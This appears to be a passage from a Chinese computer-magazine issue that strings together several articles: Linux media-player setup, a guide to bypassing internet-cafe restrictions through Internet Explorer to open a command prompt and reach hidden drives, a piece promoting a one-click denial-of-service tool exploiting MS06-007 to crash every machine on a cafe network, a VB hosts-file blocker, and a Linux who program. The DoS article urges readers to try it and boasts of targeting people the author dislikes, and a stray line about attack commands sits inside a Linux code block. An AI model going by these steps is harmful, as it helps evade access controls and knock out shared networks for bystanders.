这样我们就安装上了解码库，如果你不是 Ubuntu，或者你想获得最新的解码库，请访问 http://www.mplayerhq.hu 下载最新的 code 包。完成后，将包内文件解压到 /usr/lib/win32 即可。

### (2) 安装 gstreamer 解码器

gstreamer 是 GNOME 力推的一套解码器，极有可能成为日后 Gnome 的主流平台。不过由于是开源的，所以很多商业编码无法支持，比如 rmvb。很多小菜刚安装好 Linux 发现无法播放 MP3，其实只要安装了 gstreamer 就可以解决了。

```bash
sudo apt-get install gstreamer0.10-*
```

（小知识：上面的命令中，最后的星号可以将 gstreamer0.10 开头的所有软件包都装上。）

### (3) 安装 xine 解码器

xine 是一套历史悠久的解码器，很多媒体软件可以通过它进行解码。比如 Totem、Amarok。由于发展历史悠久，所以目前 xine 在 Linux 系统中支持多媒体格式应该是最多的。Firefox 也可以通过 totem-xine 实现在线播放。

```bash
sudo apt-get install libxine-extracodecs
```

好了，到这里我们的系统就已经可以播放大多数的媒体文件了。很多媒体播放工具在后续的安装中，默认就可以使用，而有些还需要进行一点小调整，比如解码器的选择。

### 2. Totem

Totem 是 GNOME 自带的视频播放软件（图 1）。由于默认是使用的 gstreamer 库，我们先来调整一下。

```bash
sudo apt-get install totem-xine
```

在安装的过程中，系统会提示你将要卸载 totem-gstreamer，我们确认就可以了。

Totem 现在已经支持 XSPF（XML Shareable Playlist Format）共享播放列表。而更加方便的是，网页上调用 Windows Media Player 或者 RealPlayer，Totem 也可以识别并且播放。

不过，默认的 Totem 在播放需要加载字幕的视频时还存在一些问题。我们试着手动来解决它。基本的思路是，xine 默认并没有适合中文的字体包。这里的适合中文并不是特指是否有可以显示汉字的字体，而是那些字体是否能够在 GB18030 编码下正常工作。自己动手，丰衣足食。我们就自己做一个吧。

对应你使用的字体使用下面的命令（注意：请将路径改成自己的字体文件所在目录，我用的是微软雅黑字体。xine-fontconv 程序光盘中有所提供。）

```bash
sudo xine-fontconv /usr/share/fonts/truetype/ttf-yahei/msyh.ttf simsun gb18030
```

执行了命令后，目录下会生成 6 个字体包文件（图 2）。

将这些文件复制到 /usr/share/xine/libxine1/fonts 目录下，接着修改 ~/.gnome2/totem_config 文件。设定以下内容：

```ini
subtitles.separate.font:simsun
subtitles.separate.src_encoding:gb18030
```

最后将视频文件和字幕文件放在同一目录下，并且保持相同文件名即可。比如视频文件为 abcd.avi，则字幕文件就为 abcd.srt。到这里，Totem 的字体设置就完成了。

（小知识：关于 Totem-xine 不能显示中文的 srt 字幕问题，其实 libxine 是支持用 ttf 格式的字体显示字幕的，但是各个 Linux 发行版编译的 libxine 似乎都没有将这个功能编译进去。所以我们只好使用 xine-fontconv 程序将 ttf 字体文件转换为 xine 的字体文件。）

### 3. MPlayer

MPlayer 是 Linux 下的一款全能播放器，不仅可以播放众多的格式，还支持皮肤（图 3）。

### (1) FC5 下安装

```bash
rpm -ivh http://rpm.livna.org/livna-release-5.rpm
yum install mplayer
yum install mplayer-gui
yum install mplayer-skins
```

### (2) Ubuntu 下安装

```bash
apt-get install mplayer mplayer-fonts mplayer-skins
```

如果你是 Intel-P4 以上级别 CPU，可以再安装 mplayer-686 包；如果是 AMD-K7 级别 CPU，可以安装 mplayer-k7 来优化性能。

### (3) MPlayer 字幕设置

安装完成之后一般的使用就不多说了，我们还是来解决默认无法使用的字体问题。

- ① 右键点击 MPlayer，在弹出菜单中选择 Preferences。
- ② 选择 Subtitle&OSD 标签，在 Encoding 菜单中选择中文（CP936）。
- ③ 选择 Font 标签，在 Font 栏中选择合适的中文字体。在 Encoding 栏中选择 Unicode。

这样字幕问题就解决了，在调用字体的时候也可以采用字幕文件名和媒体文件名称相同的方法。也可以在 MPlayer“打开”菜单中打开字幕文件。

（小提示：MPlayer 打开 rmvb 文件时需要选择文件类型为 all。MPlayer 播放 rmvb 文件时无法快进。）

### 4. RealPlayer

RealPlayer 也有 Linux 上的版本，当然 RealPlayer 可不是万能的播放器，大多数人安装都是为了播放 rmvb 的。虽然 xine 已经可以播放 rmvb，但萝卜青菜各有所爱（图 4）。

### (1) Ubuntu 下安装

```bash
apt-get install realplayer
```

### (2) 解决输入法冲突

realplayer 和 scim 包有冲突，很多系统上都会出现无法打开的情况，这时候我们可以用 scim-bridge 代替 scim。它们在使用上并无差别。

```bash
apt-get install scim-bridge
```

### (3) 解决播放视频卡

因为内核默认的 OSS 驱动对某些声卡支持得不好，而 RealPlayer 又默认使用 OSS，所以我们要使用 ALSA 模拟的 OSS 就好了。即用 aoss realplay 启动 RealPlayer。

```bash
apt-get install alsa-oss
aoss realplay


```

到这里，Linux 下的视频播放可谓畅通无阻了。虽然还有一些问题没有解决（比如 MKV 文件无法中文字幕），但日常的使用是满足了，并且我也相信目前的问题很快就会解决的。
图5
图6

## 二、音频播放

音频播放更加充满了个人色彩。每个人的胃口不同，选择的播放器也不同。有人喜欢 Winamp 2.X 那样简单的播放器，有人喜欢 Windows Media Player 那样具有媒体库管理能力的播放器。也有人喜欢 Foobar 那样功能多多，但需要一定定制才能更好使用的播放器。在这个章节中 lala 将尽量介绍更多的播放器，并且简述它们的特点，供大家挑选。
图7
图8
图9

### 1. Beep Media Player

XMMS 早已是过时的软件，实际上 BMP 也已经停止了开发。但在各个发行版本中都有良好的支持，我们不用自己编译就可以享受到这款简单、实用的软件。

BMP 在外观上兼容 Winamp 2.X 皮肤，使用简单，支持播放列表文件。通过调整可以支持中文标签。

### (1) 安装

```bash
apt-get install beep-media-player
```

### (2) 中文标签

右键点击 BMP，选择“首选项”→“插件”→“媒体标签”→“MPEG 音频插件”，点击“首选项”→“标题标签”，选择“并非 UTF-8 ID3 标签转换成 UTF-8”，在 ID3 编码中输入：GBK（图5）。

### 2. Audacious

在 BMP 停止开发后，Audacious 出现了。尽管 XMMS2 现在也在开发中，但不知其 CS 的模式会让多少人接受。目前看来 Audacious 是 BMP 最好的替代品。

很难用几句话说出它比 BMP 多了哪些功能，在扩展功能上 Audacious 不止上了一个台阶。默认支持的格式也更多，比如 wma，同时它也是支持 Winamp 2.X 皮肤。还是给大家看看图吧（图6、图7）！

### (1) 安装

光盘中提供了 rpm 和 deb 包。选择自己的版本安装。

### (2) 选择音频输出

在“首选项”→“Audio”→“Current Output plugin”中选择 ALSA。

### 3. Amarok

Amarok 是 QT 环境下大型的播放器，可以使用 xine 和 gstreamer 解码。Amarok 是目前我看到 Linux 下功能最全面的播放器。媒体库管理、播放列表存储、网络广播、标签编辑、不同的外观模式、封面管理、歌词显示、评级功能（图8）……

### (1) 安装 Amarok

```bash
apt-get install amarok amarok-xine
```

### (2) 歌词脚本

Amarok 的歌词是通过脚本显示的（工具→脚本管理器），既然如此，我们就可以自己添加歌词脚本。已经有人做出了基于百度、雅虎的歌词显示脚本（光盘中有提供）。点击“工具”→“脚本管理器”→“安装脚本”→“定位到脚本包即可”。接着选择脚本，点击“运行”即可（图9）。

（小提示：使用 QT 库的程序在 Gnome 下也可以运行，只要安装了 QT 库即可。amarok 最新版本不支持 GBK 标签。）

### 4. Rhythmbox

Rhythmbox 是 Gnome 环境下默认的音频管理、播放工具。虽然也是大型的媒体管理工具，但在功能上比 amarok 逊色不少。支持封面显示、网络广播、播放列表。但在标签修改上功能很弱，似乎修改不能保存，且修改后的 MP3 文件不能及时重新读取标签内容。

### 5. Quod Libet

Quod Libet 是 Gnome 环境下一款可用于媒体管理的播放器（图10），并且随播放器带了一个 Ex Falso 来编辑你的 MP3 标签（图11）。程序体积小巧，功能齐全。Ex Falso 当然也支持通过 CDDB 查询专辑库。Quod Libet 除了具有一般播放器的管理、播放功能，还可以通过插件来扩展功能（图12）。

简单、小巧、实用是这款软件的特点。这也是我在 Gnome 环境中用得最多的一款播放器。

#### 安装

```bash
apt-get install quodlibet


```
### 6. Songbird——一边上网边听歌

Songbird 是一款较有特色的播放器。说它是播放器，它又不完全是播放器；说它是浏览器，它又不只是简单的浏览器。它的浏览器架构基于 XUL，和 FireFox 类似，并且可以在 Linux、Windows、MacOS 上运行。
Songbird 是大型播放器中少有支持皮肤的一款，当然它也支持插件，这使得 Songbird 具有很好的扩展性。当然 Songbird 也有音乐网站书签、存储、服务和搜索引擎，这些都有助于用户快速而方便地加以使用（图13）。

Songbird 的媒体功能会在浏览网页时充分体现，当浏览到有媒体的网页时，Songbird 会生成一个播放列表供你选择。

### (1) 安装 Songbird

Songbird 不用安装，直接运行包内执行文件就可以了。

到 http://www.songbirdnest.com/download 下载 Songbird。

```bash
tar -xzvf Songbird_0_2_RC2_linux-i686.tar.gz
./Songbird


```

Songbird 菜单栏中的中文字体显得有点虚，其他并没有太多缺点。Songbird 在 Windows 平台使用率大约为 85%，而 Linux 下大约为 8%。
> [小提示：此程序使用需求如下：Python 2.4、python-gtk2（2.8.6）、gstreamer 0.10、gstreamer0.10-plugins-good、python-gpod（支持 iPod）、gstreamer0.10-plugins-ugly（支持 mp3）、python-dbus]

### 7. Exaile

Exaile 是一款极具潜力的 Gnome 环境下的播放器。其设计目标就是 Gtk 的 Amarok！每一个新版本都集成了更多的流行元素，比如从网络上下载专辑封面、支持 iPod、支持广播、支持 last.fm、托盘。而在媒体管理上，功能也是相当全面的（图14）。

### (1) 安装

Exaile 官方已经提供了 RPM 包和 deb 包。请到 http://exaile.org/index.rb?command=download 下载安装。

Exaile 目前对中文 tag 支持还没有很好的解决方案。

### 8. Listen

Listen 也是为 Gnome 设计的音乐播放和管理软件。具有以下特点：管理音乐库，支持 iPod 和 podcast，制作播放列表，自动或手动抓取专辑封面，自动与 iPod 同步专辑封面，烧录音乐 CD，在播放时直接从 Wikipedia 获取信息，查看歌词，有关歌曲、专辑、歌手的信息，收听 web radio，将歌曲提交到 Audioscrobbler，快速访问 last.fm 相关文件，等等（图15）。
图15

### (1) 源码安装

- ① 下载源码：http://prdownloads.sourceforge.net/listengnome/listen-0.4.3.tar.gz?download
- ② `./configure && make && make install`

### (2) deb 包安装

- ① `sudo vi /etc/apt/sources.list`
- ② 添加以下内容：

```bash
deb http://theli.free.fr/packages/ dapper listen
```

- ③ 执行命令：

```bash
sudo apt-get update
sudo apt-get install listen


示，攻击命令已经发送完毕。


```

比较奇怪的是，Listen 的界面安排方式和其他播放器稍有不同，而 Listen 在读取中文标签的时候会出现比较卡的现象。建议大家使用 Quod Libet 标签管理工具将中文歌的标签更新为 UTF-8。

好了，到这里我们对 Linux 下的媒体播放、管理可以说是得心应手了，不过不要以为就这点内容哦！Linux 下也同样可以收看网络电视，如果你已经知道如何收看网络电视，赶快投稿吧！分享你的发现。

> 【文中涉及的如下软件在光盘中有收录：audacious*.rpm、audacious*.deb、codecs-20060611.tar.bz2、exaile*.deb、listen*.deb、lyrics_baidu.amarokscript.tar.gz、lyrics_yahoo.amarokscript.tar.gz、MPlayer-1.0pre8.tar.bz2、quodlibet-0.23.1.tar.gz、rhythmbox_0.9.6-1getdeb1_i386.deb、Songbird_0_2_RC2_linux-i686.tar.gz、xine-fontconv.gz】

# 编辑点评

本文为大家介绍了许多 Linux 下的媒体播放工具，虽然并不是每款都详细讲解了使用方式，但也给出了一些问题的解决方法，并且也提供了一些暂时无法解决的问题的资料。重要的是，我们知道了 Linux 下娱乐的方式，有时候指引出一条路比带你走一条路还要重要。
# 星陨梦想

转眼又是 31 天，快到入冬了。天气还是那么无常，今天刚加了件上衣，太阳却又灿烂起来了。不过空气还是不错的，天空也很蓝，北京好像与这些久违了。与气候相反的是，网吧的生意却日见火爆。想要在某天出去通宵，偶却被通知机器已被预定完毕，令人意外。国内网吧业方兴未艾，网吧安全的研究同样紧随发展的脚步，与网管软件之间的斗争一直没有停止过。小渔梦想有一天到网吧，看到的是 P4 双核 + 2G 内存，19 纯平 + 舒适豪华老板椅。最重要的是清洁的桌面上无半点网管软件的影子。呵呵，恐怕只能是梦想了吧！不过只要努力，就会更接近梦想的。来看看本期的“泡泡吧”！

# 网吧限制破解 IE 篇

星陨石碎

> 从本文中你可以学到：  
> IE 在破解网吧限制中的利用方法

IE，是 Internet Explorer 的缩写，是 Windows 操作系统内嵌的免费的 Internet 浏览器。这个东西是我们在网吧最常遇到的软件之一，网吧管理员是不会限制它的运行的，除非网管不想混了——所以这就是突破口了，他不敢禁止，我就教你如何利用 IE 来突破网吧限制吧！

一个 IE 浏览器窗口由以下几个部分组成：标题栏、菜单栏、工具栏、地址栏、工作区和状态栏，如图1。除了标题栏外，其他几个项目都可以被我们利用在限制的破解上，下面我就来依次讲解。

## 一、菜单栏

### 1、文件菜单

文件菜单中可以被利用的选项有“打开”和“另存为”。下面看我如何突破以下模拟环境的限制。

> 模拟环境：禁止访问所有本地硬盘；隐藏所有本地硬盘；隐藏桌面；禁止桌面右键。  
> 目的：打开一个 CMD 窗口
图1 一个 IE 窗口的组成

首先打开 IE，随便进入一个网站，无法访问也没关系。然后点“文件”→“另存为”，出现保存网页的对话框，如图2。

由于限制了访问所有磁盘驱动器，我们只能保存在桌面上，文件名无所谓，注意在保存类型处要选择“文本文件”，保存即可。
图2 保存网页对话框

继续，这次选择“文件”→“打开”选项，出现如图3的对话框。

点击“浏览”，“文件类型”处选择“文本文件”或“所有文件”，选择你刚刚保存的文本文件，然后打开，在刚才的“打开”对话框上点击“确定”，你就获得了一个文本文件了。

不用客气，使用 Ctrl+A 全选内容，然后 Backspace 删除所有内容。然后在里面写 **cmd**，如图4。

然后选择“文件”→“另存为”。保存类型和编码默认即可，文件名处写 `*.bat`。注意的是 `*` 是通配符，但是在这里这个 `*` 不能是 `cmd`。如果你运行一个内容是 cmd 的 cmd.bat，将得到一个不断向下翻的循环，如图5。

这是因为 bat 文件也是可执行文件，只使用文件名（这里是相对于使用文件名加扩展名运行文件的方法）也是可以运行的。这样也就得到了一个不断运行 `cmd.bat` 的循环。`command`、`ipconfig` 等命令同样如此。但是 `ver`、`dir`、`cls` 命令却不存在这种现象。这样看来，在批处理文件中运行一个实例的时候，内部命令的优先级别要高于当前目录下文件的优先级别，接着再高于外部命令。在命令行下同样如此。

哈！好像走题了啊！～说到哪了，看我的保存实例，如图6。

好的，同样使用 IE 的打开功能，这次文件类型选择所有文件，打开刚才保存的文件就可以获得一个命令提示符了。
### 2、查看菜单

“查看”菜单中有用的选项是“工具栏”、“浏览器栏”和“源文件”。“工具栏”对应的就是 IE 的工具栏，该选项下有一“自定义”的子选项，进入。在“自定义工具栏”对话框中的“可用工具栏按钮”中有“文件夹”选项，如图7。选择“文件夹”，添加后关闭。然后在 IE 工具栏的右侧就可以看到文件夹的图标了，如图8。点击它，就在当前页面的左侧出现了一个类似资源管理器的目录树，如图9。现在我们就可以像使用资源管理器一样随便进出硬盘和目录了。

“浏览器栏”中的大部分内容都是 IE 工具栏的项目。其中有一个“文件夹”的选项，点击它同样可以在当前页面左侧获得一个资源管理器窗口；“源文件”相信也是很多朋友突破限制经常要用到的。点击“源文件”，我们就可以获得一个文本文件了，这里不再赘述。

### 3、收藏菜单
“收藏”菜单中除了“添加到收藏夹”的选项不很重要，其他几个都可以被我们利用。先看“收藏夹”→“整理收藏夹”，如图10。

其中有个“创建文件夹”的选项，点击它会在 `C:\Documents and Settings\Administrator\Favorites` 下创建一个文件夹。然后在“收藏”中就可以看到刚才新建的文件夹了，如图11。

在文件夹图标上双击，你就可以进入 `C:\Documents and Settings\Administrator\Favorites\新建文件夹`，然后使用“向上”、“后退”等按钮，你就可以进入其他目录了。当然在“收藏”中默认的文件夹链接也是同理的。

还有一个利用方法。一般在“收藏”菜单中都有一些网站的链接，比如我这里是联想的链接，在任意的链接上点击右键，选择“属性”。在“Web 文档”选项卡的 URL 中写 `C:\`，然后点“确定”即可，如图12。这时候你再通过“收藏”打开修改后的链接，你会发现你已经进入 C 盘了。
### 4、工具菜单

“工具”菜单中最重要的就是“Internet 选项”。“Internet 选项”是系统中非常重要的程序，通过它我们可以自定义自己的 IE。同时“Internet 选项”也是我们在破解限制的过程中经常会接触到的。主要用到的是“安全”选项卡中的设置。其中有两个按钮：“自定义级别”和“默认级别”。“默认级别”指中等级别，如果你点击了该按钮的话，就可以在“安全”选项卡的左侧对级别做粗略的设置，一共有高、中、中低、低四个级别。如果你想进行详细设置的话，点击“自定义级别”，该选项可以对安全做更细致的设置，如图13。

其中对我们有用的是“运行 ActiveX 控件和插件”和“文件下载”两个选项。通过 ActiveX 控件我们可以运行在线工具，下载就不用说了，是网吧的常见禁用项目。我们只要把这两个选项设置为“启用”就可以了。除了直接设置，如果你点击“默认设置”，也是可以解除禁止下载的限制的，因为中等级别是允许下载的，而高级安全级别却不可以。
## 四、工作区

也就是页面显示的区域了。在这个区域我们利用的主要是上下文菜单，即右键菜单。在页面的某个文字链接处单击右键，会出现“目标另存为”的选项。进入后在弹出来的“另存为”对话框的文件名处写 `*.txt`，就可以保存为一个文本文件了。

该选项的利用和“文件”→“另存为”的意图是相同的，但是它们之间又存在不同。在上下文菜单中的“另存为”相当于下载，而通过“文件”菜单的“另存为”却不是。在禁止下载后，“文件”菜单的优势就体现出来了。在工作区的上下文菜单中同样有“查看源文件”选项，利用方法和“查看”菜单的“源文件”相同。

### 5、帮助菜单

“帮助”中只有一项可以被我们利用。选择“帮助”→“目录和索引”，打开 IE 的帮助文件。其中有一个“选项”的选项，该选项下又有“Internet 选项”，如图14。这就是又一种打开“Internet 选项”的方法了。
## 二、工具栏

其实工具栏中的大部分项目已经包含在菜单栏内了，在工具栏上右击鼠标后出现的上下文菜单即是“查看”→“工具栏”下的内容；“收藏夹”对应“收藏夹”菜单，不同的是“收藏夹”是把项目显示在当前页面左侧新打开的一个窗口中。工具栏的利用参照前面的利用就可以了，效果都是一样的。

## 五、状态栏

状态栏里唯一可以利用的是状态栏右侧一个地球图标加 Internet 的那个东西，如图15。双击它就可以打开“Internet 选项”的安全选项卡了。

大家注意到我在讲各种选项利用的时候并没有考虑网管对相应选项的限制。很多时候很多选项是不允许访问的，比如“Internet 选项”，比如“查看源文件”。的确如此。我考虑到破解这方面限制的文章太多了，只是想把 IE 下的破解方法做一个小小的总结。在一般的网吧前面说的两个限制是比较常见的，而其他的限制却限制得很少。并且就像文章中提到的，IE 中的许多操作都是可以通过两种甚至两种以上的途径实现的，这种方法不行，可以尝试另外的方法。每个网吧对 IE 的限制不一，在 A 网吧可以用的方法很可能在 B 网吧就不好用，我想要的只是你掌握所有这些利用方法。IE 在网吧的利用是一定要学会的。总之，肯定有用的就是啦！

## 网吧当机王 横行局域网

花非花【L.S.T】& Lenk【L.S.T】

> 从本文中你可以学到  
> 利用 MS 漏洞的傻瓜当机法

应组织老大 Lenk 的要求，本人为大家推荐一款可横行局域网的软件——网吧当机王。本程序可针对单一主机发起攻击，也可以针对整个网段发起攻击。大家先来看看界面吧，如图1。

Microsoft Windows Server 2003（用于基于 Itanium 的系统）和 Microsoft Windows Server 2003 SP1（用于基于 Itanium 的系统）  
Microsoft Windows Server 2003 x64 Edition

## 一、程序原理

本程序是根据 Microsoft 安全公告 MS06-007 的漏洞原理编写的，那么让我们来看看微软的漏洞安全公告吧。

- Microsoft 安全公告 MS06-007
- TCP/IP 中的漏洞可能允许拒绝服务
- 再来看看受影响的软件：
  - Microsoft Windows XP Service Pack 1 和 Microsoft Windows XP Service Pack 2
  - Microsoft Windows XP Professional x64 Edition
  - Microsoft Windows Server 2003 和 Microsoft Windows Server 2003 Service Pack 1

## 二、如何当机王

估计看了图形界面，大家应该很清楚该如何当机王了吧。据 Lenk 和黑色一月的测试（网吧），效果相当好，一旦网吧的机器没有打上安全补丁，那么你就可以横行网吧啦！下面说一下如何使用：

在本机 IP 填上自己的 IP 地址（一般运行此程序，程序会自动获取本机 IP），攻击范围一般就是 1—255（包括自己在内），我们当然不想自己也受牵连 ^_^，所以把“排除自身”打上勾。那么点“开始”就 OK 啦！

经过老大 Lenk、黑色一月和我的测试，按下开始键后，如果返回如图2，那么就表
提交攻击命令后的大致效果是：整个网吧的路由器全部停止了，一片安静，然后紧接着就是一阵叫骂声（玩游戏的，突然断网，你说是不是很不爽？）。如果不信，大家可以下去试试，纯傻瓜软件！本人偏爱整我看不惯的人，比如女生翘起二郎腿还叼着根烟的，个人爱好而已，不推荐大家这么做。
## 三、安全更新

为了避免自己的机器受到这样的攻击，大家还是把补丁打上吧！

补丁下载地址：http://www.microsoft.com/china/technet/security/bulletin/MS06-007.mspx

## 四、免责声明

由于这款软件是纯破坏性的工具，具有一定的破坏性（特别是网吧），所以组织曾经在群里（专为各种网络爱好者提供交流的群）里禁止了该软件的下载。为了避免纠纷问题，在此声明：此软件只作学习交流用，非法运用造成的任何纠纷，我们组织和本人概不负责。

【文章中涉及的工具“网吧当机王”在光盘中有收录】

> **编辑点评：**
> 利用系统漏洞实现攻击的网吧当机工具还不多见，这让我想起了以前在家的时候用 X-way 让网吧一半机器全部死机的情景（自己也死了），真是甚爽，心脏也跳得厉害！建议心脏不好的朋友慎用！“做这个活计的时候你可要找好位置了，要不当了别人机被发现，别人可会要把你当了哦！”
# 导语

程序就是一系列按步骤进行的操作序列，它有好多种级别，比如最低级的微程序，次低级的汇编程序，高级的各种编程语言程序，最高级的脚本语言程序。不管是哪个级别的程序，其本质都是操作的逻辑序列。因此如果一个程序员的逻辑能力不高，他永远都不能成为一名具有合格职业水准的程序员。让我们在这里一起学习，不断地提高我们的逻辑能力吧。

# 用 VB 写网址过滤程序

## 起因

最近小生的舍友没事总喜欢用我的本本乱上网站，整得本本中了大堆病毒，所以我决定把舍友喜欢上的网站给过滤了。嘿嘿，做法可能有点不尽人意，但是为了本本，只有豁出去了。虽然网上有很多工具能实现这个功能，但是相信很多跟我一样的小菜都想自己写一个。那么今天我就跟大家一起用 VB 写一个具有该功能的小工具吧！

## 可行性分析

很多朋友们都知道在系统中有个 Hosts 文件（注：无后缀），在 XP 系统中位于 C:\Windows\System32\Drivers\Etc 目录中。该文件其实是一个纯文本文件，一般用记事本打开修改即可。打开 hosts 文件后，可以看见微软对这个文件的说明，如图1所示。大概意思是说这个文件是根据 TCP/IP for Windows 的标准来工作的，它的作用是包含 IP 地址和 Hostname（主机名）的映射关系，是一个映射 IP 地址和 Hostname（主机名）的规定，规定要求每段只能包括一个映射关系，IP 地址要放在每段的最前面，空格后再写上映射的 Hostname（主机名）。在说明结尾处还给出了两个例子。
> **小提示：** 计算机在网络上访问网站，要首先通过 DNS 服务器把网络域名（www.XXXX.XXX）解析成 XXX.XXX.XXX.XXX 的 IP 地址，我们的计算机才能访问。要是对于每个域名请求我们都要等待域名服务器解析后返回 IP 信息，这样访问网络的效率就会降低，而 Hosts 文件就能提高解析效率。根据 Windows 系统规定，在进行 DNS 请求以前，Windows 系统会先检查自己的 Hosts 文件中是否有这个地址映射关系，如果有则调用这个 IP 地址映射，如果没有再向已知的 DNS 服务器提出域名解析。也就是说 Hosts 的请求级别比 DNS 高。它主要能加快域名解析、方便局域网用户、屏蔽网站、顺利连接系统，我们利用的就是其中屏蔽网站的功能。

现在我们来尝试一下屏蔽一个网址，看看效果如何。在 Hosts 文件末尾加上“127.0.0.1 www.nohack.cn # 屏蔽黑客手册官方网站”，好了，用浏览器访问 www.nohack.cn 试试吧。测试结果是“没有可以显示的页面”，说明成功了。在这里要说明一下，如果你之前经常访问 www.nohack.cn 的话，那么在执行上面的操作前一定要先把 Internet 清除临时文件，如果还不行，那只有重新启动了。

## 编写程序

知道基本原理之后，现在我们就可以开始进入 VB 环境下开始写一个可以简化屏蔽站点操作的工具了。那么现在就开始吧！软件界面如图2所示，主要控件属性设置如表1所示。

因为考虑到有时候会错误操作，所以代码加上了简单的单步撤销和重做。大家如果收集到一些垃圾网站要屏蔽的，也可以放入 TempTxt 中，我已经在网上简单地收集了一些。好了，不多说，奉代码。代码和详细说明如下：
| 控件名 | Name | Text | Caption |
|---|---|---|---|
| TextBox | OutTxt | 空 | 无 |
| TextBox | IPTxt | 127.0.0.1 | 无 |
| TextBox | HTTPTxt | 空 | 无 |
| TextBox | ONTxt | 空 | 无 |
| TextBox | TempTxt | [收到的网址网站] | 无 |
| CommandButton | cmdAdd | 无 | 添加 |
| CommandButton | cmdVouch | 无 | 推荐 |
| CommandButton | cmdReread | 无 | 重读 |
| CommandButton | cmdCancel | 无 | 撤消 |
| CommandButton | cmdRepeat | 无 | 重做 |
| CommandButton | cmdSave | 无 | 添加 |

## 代码加密

```vb
'定义窗体级变量
Dim TempTxt1 As String    '存放撤销的数据的变量
Dim TempTxt2 As String    '存放重做的数据的变量

Private Sub cmdAdd_Click()
    '设置错误陷阱
    On Error Resume Next
    '把OutTxt.Text原有的数据储存在变量TempTxt1里，用于撤销
    TempTxt1 = OutTxt.Text
    If ONTxt.Text <> "" Then
        '如果有说明，则需要在说明前面加上'#'
        OutTxt.Text = OutTxt.Text & vbNewLine & IPTxt.Text & " " & HTTPTxt.Text & " # " & ONTxt.Text
    Else
        '如果没有说明，则不需要加上'#'后面的内容
        OutTxt.Text = OutTxt.Text & vbNewLine & IPTxt.Text & " " & HTTPTxt.Text
    End If
    '用二进制方式打开"C:\Windows\System32\Drivers\Etc\hosts"文件
    Open "C:\Windows\System32\Drivers\Etc\hosts" For Binary As #1
    '把OutTxt.Text中的内容写入"C:\Windows\System32\Drivers\Etc\hosts"文件中
    Put #1, , OutTxt.Text
    Close #1
    '清空HTTPTxt.Text和ONTxt.Text中的内容，方便用户再次添加
    HTTPTxt.Text = ""
    ONTxt.Text = ""
    '设定"撤销按钮"可用，设定"重做按钮"不可用
    cmdCancel.Enabled = True
    cmdRepeat.Enabled = False
End Sub

Private Sub cmdSave_Click()
    '设置错误陷阱
    On Error Resume Next
    '打开"C:\Windows\System32\Drivers\Etc\hosts"文件
    Open "C:\Windows\System32\Drivers\Etc\hosts" For Output As #1
    '把OutTxt.Text中的内容写入"C:\Windows\System32\Drivers\Etc\hosts"文件中
    Print #1, OutTxt.Text
    '关闭"C:\Windows\System32\Drivers\Etc\hosts"文件
    Close #1
End Sub

Private Sub cmdCancel_Click()
    '把OutTxt.Text原有的数据储存在变量TempTxt2里，用于重做
    TempTxt2 = OutTxt.Text
    '把OutTxt.Text中的内容还原为TempTxt1中的内容，即撤销
    OutTxt.Text = TempTxt1
    '调用保存文件的过程
    Call cmdSave_Click
    '设定"撤销按钮"不可用，设定"重做按钮"可用
    cmdCancel.Enabled = False
    cmdRepeat.Enabled = True
End Sub

Private Sub cmdRepeat_Click()
    '把OutTxt.Text原有的数据储存在变量TempTxt1里，用于撤销
    TempTxt1 = OutTxt.Text
    '把OutTxt.Text中的内容还原为TempTxt2中的内容，即重做
    OutTxt.Text = TempTxt2
    '调用保存文件的过程
    Call cmdSave_Click
    '设定"撤销按钮"可用，设定"重做按钮"不可用
    cmdCancel.Enabled = True
    cmdRepeat.Enabled = False
End Sub

Private Sub cmdRead_Click()
    '设置错误陷阱
    On Error Resume Next
    Dim FileLength As Long           '储存文件长度的变量
    Dim FileContent() As Byte        '储存文件内容的变量
    '根据文件长度定义该变量大小
    FileLength = FileLen("C:\Windows\System32\Drivers\Etc\hosts")
    '根据文件大小重新定义文件内容的变量大小
    ReDim FileContent(FileLength - 1)
    'open的使用方法如下
    'open "文件路径及文件名" for 方式 as # 文件号
    '其中方式可以以下几种：
    'Append, Binary, Input, Output, 或 Random。
    '如果未指定方式，则以 Random 访问方式打开文件
    '用二进制方式打开变量txtFileName中储存路径的文件
    Open "C:\Windows\System32\Drivers\Etc\hosts" For Binary As #1
    '获取文件内容并存入变量
    Get #1, , FileContent
    '关闭变量txtFileName中储存路径的文件
    Close #1
    '将文件内容放入OutTxt.Text
    OutTxt.Text = StrConv(FileContent, vbUnicode)
End Sub

Private Sub cmdVouch_Click()
    '导入推荐的垃圾网站的列表
    OutTxt.Text = OutTxt.Text & vbNewLine & TempTxt.Text
    '调用保存文件的过程
    Call cmdSave_Click
End Sub

Private Sub Form_Load()
    '调用打开文件的过程
    Call cmdRead_Click
End Sub


```

代码在 VB6+XP SP2 下通过测试。其实屏蔽网站的原理很简单，我只是做了一个扩展。如果大家觉得太简单的话不要骂我哦，如果有什么疑问或者想法都可以到 NoHack 的 BBS（http://www.nohack.cn/bbs）或我的 Blog（http://www.yulv.net）上留言。

> （作者提到的网址过滤程序的代码已经收录在光盘中）
>
> 编程点评：利用 Hosts 文件来屏蔽网址，真可谓是巧妙，又为了简化操作，采用程序实现了文件的修改，这样的文章希望以后可以多见一些。既给了我们思路，又能同时学习到编程，真可谓一举两得。
## 自己动手编写的 Linux 下的 who 程序
- 从本文你可以学到：
- 1. 了解 Linux 下查看正在使用的用户
- 2. 分析正在使用的用户信息存储文件
- 3. 编程实现自己的 who 程序

## 原理

其实在 Linux 下想看到谁登录在自己的机器上，用 w 或者 who 命令即可查看，如图1所示。

从上图中可以看出有 4 人正在使用当前这台 Linux。如果想知道如何使用 who 命令或者 w，可以查看手册（即 man，manual 的缩写，使用手册，man 也是一个命令。我们可以通过 man 来查看很多信息，例如查看 printf 的信息，可以输入 man printf。当然，前提是 printf 在系统中有手册，帮助信息如图2）。

```bash
[root@localhost root]# man w    （查看 w 命令的手册）
[root@localhost root]# man who  （查看 who 命令的手册）


```

## 分析

下面分析一下 who 程序的实现原理，通过查看 who 的命令文档可以知道登录用的信息被记录到了 /var/run/utmp、/var/log/wtmp 文件中，相关的结构可以在 /usr/include/utmp.h 下查看。在该文件中包含了一个头文件 #include <bits/utmp.h>，这个文件中有具体的 utmp 结构，下面来看一看 bits/utmp.h 文件的相关部分：
```c
struct utmp
{
  short int ut_type;              /* 登录的类型(后面会列出详细的类型) */
  pid_t ut_pid;                   /* 登录的进程 ID */
  char ut_line[UT_LINESIZE];      /* 设备名，也就是我们的 TTY 名 */
  char ut_id[4];                  /* inittab ID */
  char ut_user[UT_NAMESIZE];      /* Username */
  char ut_host[UT_HOSTSIZE];      /* 登录人的主机名 */
